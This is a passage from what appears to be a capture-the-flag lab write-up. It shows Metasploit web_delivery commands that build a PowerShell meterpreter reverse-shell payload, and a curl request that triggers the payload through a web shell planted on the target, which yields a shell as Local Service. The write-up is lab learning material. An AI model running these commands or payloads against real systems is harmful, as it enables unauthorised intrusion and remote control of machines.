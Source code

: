 Now to be able to get a reverse shell, I use web delivery module of metasploit framework to create powershell reverse shell payload.

```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 443
run
```
![43a8f4e4da9502058503ba55748b282d.png](/resources/43a8f4e4da9502058503ba55748b282d.png)

Then I encode the payload with "URL encode" recipe from Cyberchef and now I get a shell as Local Service.
```
curl 'http://10.129.214.161/commandshell.php?cmd=powershell.exe%20-nop%20-w%20hidden%20-e%20<...SNIP...>'
```
![66e4e83908dfe91b354b2ad9b9cdabb7.png](/resources/66e4e83908dfe91b354b2ad9b9cdabb7.png)
![fe2ecc134e9d18427973a2bbf6ce8d1d.png](/resources/fe2ecc134e9d18427973a2bbf6ce8d1d.png)
